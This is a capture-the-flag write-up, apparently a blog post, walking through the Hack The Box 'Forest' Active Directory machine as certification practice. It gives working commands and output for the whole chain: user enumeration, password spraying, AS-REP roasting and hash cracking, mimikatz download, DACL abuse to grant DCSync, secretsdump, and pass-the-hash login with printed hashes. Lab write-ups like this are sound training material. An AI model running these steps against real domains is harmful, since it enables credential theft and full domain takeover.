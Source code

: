 ```yaml
---
layout: post
title: "Forest"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oA nmap/forest 10.129.118.84

result:
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-08 16:47:45Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-12-08T08:47:55-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2024-12-08T16:47:52
|_  start_date: 2024-12-08T16:46:12
|_clock-skew: mean: 2h46m52s, deviation: 4h37m10s, median: 6m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

We find the domain name to be htb.local and the FQDN is forest.htb.local

DNS is open, let’s try zone transfer the reverse DNS

```bash
dig @10.129.118.84 -x 10.129.118.84

#also the nslookup method
nslookup
server 10.129.118.84
10.129.118.84
127.0.0.1

#try zone transfer
dig axfr htb.local @10.129.118.84

#no response
```

Let’s try smb server.

```bash
#Null authentication
smbclient -N -L 10.129.118.84  #noresponse

#Let's try CME invalid users
cme smb 10.129.118.85 -u 'fasf' -p ''

#Tried all methods and still got nothing
```

Let’s try to query LDAP

```bash
#We can check the domain name
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local"

#Let's find all the SAM account names so we can do a password spraying attack
ldapsearch -H ldap://10.129.118.84 -x -b "DC=htb,DC=local" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

#now save the output to a file removing all the machine account names
result:
sebastien
lucinda
andy
mark
santi
```

We can try rpc  null authentication to get the users list:

```bash
rpcclient -U '' -N 10.129.118.84
enumdomusers

result:
svc-alfresco

#we get an extra user we have not seen before
```

Let’s find out the password policy:

```bash
cme smb 10.129.118.84 -u '' -p '' --pass-pol

result:
SMB         10.129.118.84   445    FOREST           Minimum password length: 7
SMB         10.129.118.84   445    FOREST           Password history length: 24
SMB         10.129.118.84   445    FOREST           Maximum password age: Not Set
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Password Complexity Flags: 000000
SMB         10.129.118.84   445    FOREST               Domain Refuse Password Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Store Cleartext: 0
SMB         10.129.118.84   445    FOREST               Domain Password Lockout Admins: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Clear Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password No Anon Change: 0
SMB         10.129.118.84   445    FOREST               Domain Password Complex: 0
SMB         10.129.118.84   445    FOREST           
SMB         10.129.118.84   445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.129.118.84   445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.129.118.84   445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.129.118.84   445    FOREST           Account Lockout Threshold: None
SMB         10.129.118.84   445    FOREST           Forced Log off Time: Not Set
```

From the password policy, we can see there are no lockout policy in place, so we can create a wordlist to bruteforce weak passwords. First create a wordlist with all the months, seasons and domain name, secret and common passwords like P@ssw0rd. Now add the current year or the year before:

```bash
for i in $(cat common-password.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > p
mv p common-password.txt
for i in $(cat common-password.txt); do echo $i; echo ${i}\!; done > p
mv p common-password.txt
```

Now we can use hashcat rule files to transform the password list:

```bash
hashcat --stdout common-password.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7' > common-password-rule.txt

```

Now we can begin the password attack in the background:

```bash
cme smb 10.129.118.84 -u users_ldap.txt -p common-password-rule.txt 
```

We can also user GetNPUsers to see if we get a TGT ticket and try to crack that:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.118.84 -no-pass -usersfile users_ldap.txt

result:
$krb5asrep$23$svc-alfresco@HTB.LOCAL:f9fa9e79d8456bbda9e9521878ac6979$dc772faf5ecd603a158634c9f14808dc432d83d5ea40c48af44a4a354732fa99e9c2e57232b797f7db6848ff91801addd8e105567e3dc268bdc81768689f45ea47bb471ea212b673b75b6b280af8f8f8db0105dc0f989c09ad1b60e5ef4a09823ca9ec684ee48e8fa86241edb722918bb7bdd2533421bf6405e536c1e126b97eb5f4d18f81664c92873da4b8691ccd23f6367c34f37c8c2ec2b5c9e322c0efd7afbedc45048bfe07eeed7290b9b01b8ecd1b94b28865f4c278aaa1a23166b205c1f97a7e81b501ef68cff346fd21de2fce859035f169789fea9c283bd24d5c85bcbcf5f21ef3
```

Let’s try and crack that in hashcat:

```bash
hashcat.exe -m 18200 wordlists\admin_hash.txt wordlists\rockyou.txt --opencl-device-types 2 -w 3
```

We have cracked the password for user svc-alfresco. Now we can check the validity of the password:

```bash
cme smb 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'
cme winrm 10.129.118.84 -u 'svc-alfresco' -p 's3rvice'

result:
both returned OK
```

We now have access to svc-alfresco. Now we have a valid user, we can evil-winrm log onto the user and we can also map privileges of the user with bloodhound.

```bash
mkdir bloodhound_output
bloodhound-python -u svc-alfresco -p 's3rvice' -ns 10.129.118.84 -d htb.local -c all

sudo neo4j start

bloodhound   #neo4j:neo4j
```

To delete old data, query this

```bash
MATCH (n) DETACH DELETE n;
```

Now start bloodhound and find user svc-alfresco and set it as starting node and mark user as owned.

Then we go to analysis and click on shortest path to domain admins from owned principal we get a mapped out route to domain admin. It’s recommending us to use mimikatz then dcsync. Let’s do that. First transfer mimikatz to target:

```bash
python3 -m http.server 8001

target:
iwr http://10.10.14.132:8001/mimikatz.exe -OutFile mimikatz.exe
```

```bash
.\mimikatz.exe
privilege::debug
#sekurlsa::logonpasswords

lsadump::dcsync /domain:testlab.local /user:Administrator
```

mimikatz don’t work on 

![image.png]({{ site.baseurl }}/assets/forest/forest-image.png)

The group Exchange Windows Permissions has WriteDacl over htb.local, which allows dcsync.

Let’s first add ourself to the group:

```bash
On attack host:
net rpc group addmem "Exchange Windows Permissions" "svc-alfresco" -U "htb.local"/"svc-alfresco"%"s3rvice" -S "FOREST.htb.local"

OR on evil-winrm:
net group "Exchange Windows Permissions" svc-alfresco /add /domain

#verify our group memebership:
net group "Exchange Windows Permissions" /domain

#Then quickly (as the service automatically deletes group membership) on attack host:

impacket-dacledit htb.local/svc-alfresco:s3rvice -action write -rights DCSync -principal svc-alfresco -target-dn 'DC=htb,DC=local' -dc-ip 10.129.118.84

#we should get a:
[*] DACL backed up to dacledit-20241208-200009.bak
[*] DACL modified successfully!

```

Now we can use secretsdump from attack host:

```bash
impacket-secretsdump -outputfile htb_hashes -just-dc htb.local/svc-alfresco@10.129.118.84 
```

We now have the hashes including Administrator’s NT hash.

Now, let’s use evil-winrm to log on.

```bash
evil-winrm -i 10.129.118.84 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

- Enumerate SMB, DNS
- ldapsearch to find users
- enum4linux
- rpcclient, enumdomusers find users
- GetNPUsers to get KRTGT hash
- hashcat -m 18200
- bloodhound to map quickest route to domain admin
- change group membership
- dacledit to grant dcsync rights
- DCSync
- secretsdump to get NT hashes